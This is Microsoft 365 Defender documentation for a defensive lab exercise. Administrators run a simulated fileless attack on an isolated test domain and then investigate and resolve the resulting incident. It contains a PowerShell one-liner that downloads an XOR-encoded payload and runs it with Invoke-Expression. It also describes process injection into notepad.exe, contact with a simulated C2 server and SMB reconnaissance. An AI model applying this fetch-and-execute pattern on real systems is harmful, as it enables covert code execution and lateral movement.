 = 
dansimp

== Run an attack simulation in a Microsoft 365 Defender pilot environment

This article is link:eval-defender-investigate-respond.md[Step 1 of 2]
in the process of performing an investigation and response of an
incident in Microsoft 365 Defender using a pilot environment. For more
information about this process, see the
link:eval-defender-investigate-respond.md[overview] article.

After preparing your link:eval-defender-investigate-respond.md[pilot
environment], it’s time to test Microsoft 365 Defender’s incident
response and automated investigation and remediation capabilities by
creating an incident with a simulated attack and using the Microsoft 365
Defender portal to investigate and respond.

An incident in Microsoft 365 Defender is a collection of correlated
alerts and associated data that make up the story of an attack.

Microsoft 365 services and apps create alerts when they detect a
suspicious or malicious event or activity. Individual alerts provide
valuable clues about a completed or ongoing attack. However, attacks
typically employ various techniques against different types of entities,
such as devices, users, and mailboxes. The result is multiple alerts for
multiple entities in your tenant.

____
[!Note] If you are brand new to security analysis and incident response,
see the link:first-incident-overview.md[Respond to your first incident
walkthrough] to get a guided tour of a typical process of analysis,
remediation, and post-incident review.
____

=== Simulate attacks with the Microsoft 365 Defender portal

The Microsoft 365 Defender portal has built-in capabilities to create
simulated attacks on your pilot environment:

* Attack simulation training for Microsoft 365 Defender for Office 365
at https://security.microsoft.com/attacksimulator.
+
In the Microsoft 365 Defender portal, select *Email & collaboration >
Attack simulation training*.
* Attack tutorials & simulations for Microsoft 365 Defender for Endpoint
at https://security.microsoft.com/tutorials/simulations.
+
In the Microsoft 365 Defender portal, select *Endpoints > Tutorials &
simulations*.

==== Defender for Office 365 Attack simulation training

Defender for Office 365 with Microsoft 365 E5 or Microsoft Defender for
Office 365 Plan 2 includes attack simulation training for phishing
attacks. The basic steps are:

[arabic]
. Create a simulation
+
For step by step instructions on how to create and launch a new
simulation, see
link:/microsoft-365/security/office-365-security/attack-simulation-training-simulations[Simulate
a phishing attack].
. Create a payload
+
For step by step instructions on how to create a payload for use within
a simulation, see
link:/microsoft-365/security/office-365-security/attack-simulation-training-payloads[Create
a custom payload for attack simulation training].
. Gaining insights
+
For step by step instructions on how to gain insights with reporting,
see
link:/microsoft-365/security/office-365-security/attack-simulation-training-insights[Gain
insights through attack simulation training].
+
____
{empty}[!VIDEO https://www.microsoft.com/videoplayer/embed/RWMhvB]
____

For more information, see
link:/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations[Simulations].

==== Defender for Endpoint attack tutorials & simulations

Here are the Defender for Endpoint simulations from Microsoft:

* Document drops backdoor
* Automated investigation (backdoor)

There are additional simulations from third-party sources. There are
also a set of tutorials.

For each simulation or tutorial:

[arabic]
. Download and read the corresponding walk-through document provided.
. Download the simulation file. You can choose to download the file or
script on the test device but it’s not mandatory.
. Run the simulation file or script on the test device as instructed in
the walk-through document.

For more information, see
link:/microsoft-365/security/defender-endpoint/attack-simulations[Experience
Microsoft Defender for Endpoint through simulated attack].

=== Simulate an attack with an isolated domain controller and client device (optional)

In this optional incident response exercise, you’ll simulate an attack
on an isolated Active Directory Domain Services (AD DS) domain
controller and Windows device using a PowerShell script and then
investigate, remediate, and resolve the incident.

First, you need to add endpoints to your pilot environment.

==== Add pilot environment endpoints

First, you need to add an isolated AD DS domain controller and a Windows
device to your pilot environment.

[arabic]
. Verify your pilot environment tenant has
link:m365d-enable.md#confirm-that-the-service-is-on[enabled Microsoft
365 Defender].
. Verify that your domain controller:
* Runs Windows Server 2008 R2 or a later version.
* Reports to link:/azure/security-center/security-center-wdatp[Microsoft
Defender for Identity] and has enabled
link:/windows-server/administration/server-manager/configure-remote-management-in-server-manager[remote
management].
* Has link:/cloud-app-security/mdi-integration[Microsoft Defender for
Identity and Microsoft Defender for Cloud Apps integration] enabled.
* Has a test user is created in the test domain. Administrator-level
permissions are not needed.
. Verify that your test device:
* Runs Windows 10 version 1903 or a later version.
* Is joined to the AD DS domain controller domain.
* Has
link:/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features[Microsoft
Defender Antivirus] enabled. If you are having trouble enabling
Microsoft Defender Antivirus, see this
link:/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-microsoft-defender-antivirus-is-not-disabled-by-a-policy[troubleshooting
topic].
* Is
link:/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints[onboarded
to Microsoft Defender for Endpoint].

If you use tenant and device groups, create a dedicated device group for
the test device and push it to top level.

One alternative is to host your AD DS domain controller and test device
as virtual machines in Microsoft Azure infrastructure services. You can
use the instructions in
link:/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet[Phase
1 of the simulated enterprise Test Lab Guide], but skip the creation of
the APP1 virtual machine.

Here is the result.

:::image type=``content''
source=``../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png''
alt-text=``The evaluation environment using the simulated enterprise
Test Lab Guide''
lightbox=``../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png'':::

You’ll simulate a sophisticated attack that leverages advanced
techniques to hide from detection. The attack enumerates opened Server
Message Block (SMB) sessions on domain controllers and retrieves recent
IP addresses of users’ devices. This category of attacks usually doesn’t
include files dropped on the victim’s device and they occur solely in
memory. They ``live off the land'' by using existing system and
administrative tools and inject their code into system processes to hide
their execution. Such behavior allows them to evade detection and
persist on the device.

In this simulation, our sample scenario starts with a PowerShell script.
In the real world, a user might be tricked into running a script or the
script might run from a remote connection to another computer from a
previously infected device, which indicates that the attacker is
attempting to move laterally in the network. Detection of these scripts
can be difficult because administrators also often run scripts remotely
to carry out various administrative activities.

:::image type=``content'' source=``../../media/mtp/mtpdiydiagram.png''
alt-text=``The Fileless PowerShell attack with process injection and SMB
reconnaisance attack'' lightbox=``../../media/mtp/mtpdiydiagram.png'':::

During the simulation, the attack injects shellcode into a seemingly
innocent process. The scenario requires the use of notepad.exe. We chose
this process for the simulation, but attackers would more likely target
a long-running system process, such as svchost.exe. The shellcode then
goes on to contact the attacker’s command-and-control (C2) server to
receive instructions on how to proceed. The script attempts executing
reconnaissance queries against the domain controller (DC).
Reconnaissance allows an attacker to get information about recent user
login information. Once attackers have this information, they can move
laterally in the network to get to a specific sensitive account

____
[!IMPORTANT] For optimum results, follow the attack simulation
instructions as closely as possible.
____

==== Run the isolated AD DS domain controller attack simulation

To run the attack scenario simulation:

[arabic]
. Ensure that your pilot environment includes the isolated AD DS domain
controller and Windows device.
. Sign in to the test device with the test user account.
. Open a Windows PowerShell window on the test device.
. Copy the following simulation script:
+
[source,powershell]
----
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
----
+
____
[!NOTE] If you open this article on a web browser, you might encounter
problems copying the full text without losing certain characters or
introducing extra line breaks. If this is the case, download this
document and open it on Adobe Reader.
____
. Paste and run the copied script in the PowerShell window.

____
[!NOTE] If you’re running PowerShell using remote desktop protocol
(RDP), use the Type Clipboard Text command in the RDP client because the
*CTRL-V* hotkey or right-click-paste method might not work. Recent
versions of PowerShell sometimes will also not accept that method, you
might have to copy to Notepad in memory first, copy it in the virtual
machine, and then paste it into PowerShell.
____

A few seconds later, the Notepad app will open. A simulated attack code
will be injected into Notepad. Keep the automatically generated Notepad
instance open to experience the full scenario.

The simulated attack code will attempt to communicate to an external IP
address (simulating the C2 server) and then attempt reconnaissance
against the domain controller through SMB.

You’ll see this message displayed on the PowerShell console when this
script completes:

[source,console]
----
ran NetSessionEnum against [DC Name] with return code result 0
----

To see the Automated Incident and Response feature in action, keep the
notepad.exe process open. You’ll see Automated Incident and Response
stop the Notepad process.

==== Investigate the incident for the simulated attack

____
[!NOTE] Before we walk you through this simulation, watch the following
video to see how incident management helps you piece the related alerts
together as part of the investigation process, where you can find it in
the portal, and how it can help you in your security operations:
____

____
{empty}[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]
____

Switching to the SOC analyst point of view, you can now start to
investigate the attack in the Microsoft 365 Defender portal.

[arabic]
. Open the Microsoft 365 Defender portal.
. From the navigation pane, select *Incidents & Alerts > Incidents*.
. The new incident for the simulated attack will appear in the incident
queue.
+
:::image type=``content'' source=``../../media/mtp/fig2.png''
alt-text=``An example of the Incidents queue''
lightbox=``../../media/mtp/fig2.png'':::

===== Investigate the attack as a single incident

Microsoft 365 Defender correlates analytics and aggregates all related
alerts and investigations from different products into one incident
entity. By doing so, Microsoft 365 Defender shows a broader attack
story, allowing the SOC analyst to understand and respond to complex
threats.

The alerts generated during this simulation are associated with the same
threat, and as a result, are automatically aggregated as a single
incident.

To view the incident:

[arabic]
. Open the Microsoft 365 Defender portal.
. From the navigation pane, select *Incidents & Alerts > Incidents*.
. Select the newest item by clicking on the circle located left of the
incident name. A side panel displays additional information about the
incident, including all the related alerts. Each incident has a unique
name that describes it based on the attributes of the alerts it
includes.
+
The alerts that are shown in the dashboard can be filtered based on
service resources: Microsoft Defender for Identity, Microsoft Defender
for Cloud Apps, Microsoft Defender for Endpoint, Microsoft 365 Defender,
and Microsoft Defender for Office 365.
. Select *Open incident page* to get more information about the
incident.
+
In the *Incident* page, you can see all the alerts and information
related to the incident. The information includes the entities and
assets that are involved in the alert, the detection source of the
alerts (such as Microsoft Defender for Identity or Microsoft Defender
for Endpoint), and the reason they were linked together. Reviewing the
incident alert list shows the progression of the attack. From this view,
you can see and investigate the individual alerts.
+
You can also click *Manage incident* from the right-hand menu, to tag
the incident, assign it to yourself, and add comments.

===== Review generated alerts

Let’s look at some of the alerts generated during the simulated attack.

____
[!NOTE] We’ll walk through only a few of the alerts generated during the
simulated attack. Depending on the version of Windows and the Microsoft
365 Defender products running on your test device, you might see more
alerts that appear in a slightly different order.
____

:::image type=``content'' source=``../../media/mtp/fig6.png''
alt-text=``An example of a generated alert''
lightbox=``../../media/mtp/fig6.png'':::

====== Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint)

Advanced attackers use sophisticated and stealthy methods to persist in
memory and hide from detection tools. One common technique is to operate
from within a trusted system process rather than a malicious executable,
making it hard for detection tools and security operations to spot the
malicious code.

To allow the SOC analysts to catch these advanced attacks, deep memory
sensors in Microsoft Defender for Endpoint provide our cloud service
with unprecedented visibility into a variety of cross-process code
injection techniques. The following figure shows how Defender for
Endpoint detected and alerted on the attempt to inject code to
notepad.exe.

:::image type=``content'' source=``../../media/mtp/fig7.png''
alt-text=``An example of the alert for injection of a potentially
malicious code'' lightbox=``../../media/mtp/fig7.png'':::

====== Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint)

Microsoft Defender for Endpoint detections often target the most common
attribute of an attack technique. This method ensures durability and
raises the bar for attackers to switch to newer tactics.

We employ large-scale learning algorithms to establish the normal
behavior of common processes within an organization and worldwide and
watch for when these processes show anomalous behaviors. These anomalous
behaviors often indicate that extraneous code was introduced and is
running in an otherwise trusted process.

For this scenario, the process notepad.exe is exhibiting abnormal
behavior, involving communication with an external location. This
outcome is independent of the specific method used to introduce and
execute the malicious code.

____
[!NOTE] Because this alert is based on machine learning models that
require additional backend processing, it might take some time before
you see this alert in the portal.
____

Notice that the alert details include the external IP address—an
indicator that you can use as a pivot to expand investigation.

Select the IP address in the alert process tree to view the IP address
details page.

:::image type=``content'' source=``../../media/mtp/fig8.png''
alt-text=``An example for unexpected behavior by a process run with no
command line arguments'' lightbox=``../../media/mtp/fig8.png'':::

The following figure displays the selected IP Address details page
(clicking on IP address in the Alert process tree).

:::image type=``content'' source=``../../media/mtp/fig9.png''
alt-text=``An example of the IP address details page''
lightbox=``../../media/mtp/fig9.png'':::

====== Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)

Enumeration using Server Message Block (SMB) protocol enables attackers
to get recent user logon information that helps them move laterally
through the network to access a specific sensitive account.

In this detection, an alert is triggered when the SMB session
enumeration runs against a domain controller.

:::image type=``content'' source=``../../media/mtp/fig10.png''
alt-text=``An example of Microsoft Defender for Identity alert for User
and IP address reconnaissance''
lightbox=``../../media/mtp/fig10.png'':::

===== Review the device timeline with Microsoft Defender for Endpoint

After exploring the various alerts in this incident, navigate back to
the incident page you investigated earlier. Select the *Devices* tab in
the incident page to review the devices involved in this incident as
reported by Microsoft Defender for Endpoint and Microsoft Defender for
Identity.

Select the name of the device where the attack was conducted, to open
the entity page for that specific device. In that page, you can see
alerts that were triggered and related events.

Select the *Timeline* tab to open the device timeline and view all
events and behaviors observed on the device in chronological order,
interspersed with the alerts raised.

:::image type=``content'' source=``../../media/mtp/fig11.png''
alt-text=``An example of the device timeline with behaviors''
lightbox=``../../media/mtp/fig11.png'':::

Expanding some of the more interesting behaviors provides useful
details, such as process trees.

For example, scroll down until you find the alert event *Suspicious
process injection observed*. Select the *powershell.exe injected to
notepad.exe process* event below it, to display the full process tree
for this behavior under the *Event entities* graph on the side pane. Use
the search bar for filtering if necessary.

:::image type=``content'' source=``../../media/mtp/fig12.png''
alt-text=``An example of the process tree for selected PowerShell file
creation behavior'' lightbox=``../../media/mtp/fig12.png'':::

===== Review the user information with Microsoft Defender for Cloud Apps

On the incident page, select the *Users* tab to display the list of
users involved in the attack. The table contains additional information
about each user, including each user’s *Investigation Priority* score.

Select the user name to open the user’s profile page where further
investigation can be conducted.
link:/cloud-app-security/tutorial-ueba#identify[Read more about
investigating risky users].

:::image type=``content'' source=``../../media/mtp/fig13.png''
alt-text=``Defender for Cloud Apps user page''
lightbox=``../../media/mtp/fig13.png'':::

===== Automated investigation and remediation

____
[!NOTE] Before we walk you through this simulation, watch the following
video to get familiar with what automated self-healing is, where to find
it in the portal, and how it can help in your security operations:
____

____
{empty}[!VIDEO
https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]
____

Navigate back to the incident in the Microsoft 365 Defender portal. The
*Investigations* tab in the *Incident* page shows the automated
investigations that were triggered by Microsoft Defender for Identity
and Microsoft Defender for Endpoint. The screenshot below displays only
the automated investigation triggered by Defender for Endpoint. By
default, Defender for Endpoint automatically remediates the artifacts
found in the queue, which requires remediation.

:::image type=``content'' source=``../../media/mtp/fig14.png''
alt-text=``An example of the automated investigations related to the
incident'' lightbox=``../../media/mtp/fig14.png'':::

Select the alert that triggered an investigation to open the
*Investigation details* page. You’ll see the following details:

* Alert(s) that triggered the automated investigation.
* Impacted users and devices. If indicators are found on additional
devices, these additional devices will be listed as well.
* List of evidence. The entities found and analyzed, such as files,
processes, services, drivers, and network addresses. These entities are
analyzed for possible relationships to the alert and rated as benign or
malicious.
* Threats found. Known threats that are found during the investigation.

____
[!NOTE] Depending on timing, the automated investigation might still be
running. Wait a few minutes for the process to complete before you
collect and analyze the evidence and review the results. Refresh the
*Investigation details* page to get the latest findings.
____

:::image type=``content'' source=``../../media/mtp/fig15.png''
alt-text=``An example of the Investigation details page''
lightbox=``../../media/mtp/fig15.png'':::

During the automated investigation, Microsoft Defender for Endpoint
identified the notepad.exe process, which was injected as one of the
artifacts requiring remediation. Defender for Endpoint automatically
stops the suspicious process injection as part of the automated
remediation.

You can see notepad.exe disappear from the list of running processes on
the test device.

===== Resolve the incident

After the investigation is complete and confirmed to be remediated, you
resolve the incident.

From the *Incident* page, select *Manage incident*. Set the status to
*Resolve incident* and select *True alert* for the classification and
*Security testing* for the determination.

:::image type=``content'' source=``../../media/mtp/fig16.png''
alt-text=``An example of the incidents page with the open Manage
incident panel where you can click the switch to resolve incident''
lightbox=``../../media/mtp/fig16.png'':::

When the incident is resolved, it resolves all of the associated alerts
in the Microsoft 365 Defender portal and the related portals.

This wraps up attack simulations for incident analysis, automated
investigation, and incident resolution.

=== Next step

link:eval-defender-investigate-respond-additional.md[:::image
type=``content''
source=``../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-step2.png''
alt-text=``The Microsoft 365 Defender incident response capabilities''
lightbox=``../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-step2.png'':::]

Step 2 of 2: link:eval-defender-investigate-respond-additional.md[Try
Microsoft 365 Defender incident response capabilities]

==== Navigation you may need

link:eval-create-eval-environment.md[Create the Microsoft 365 Defender
Evaluation Environment]
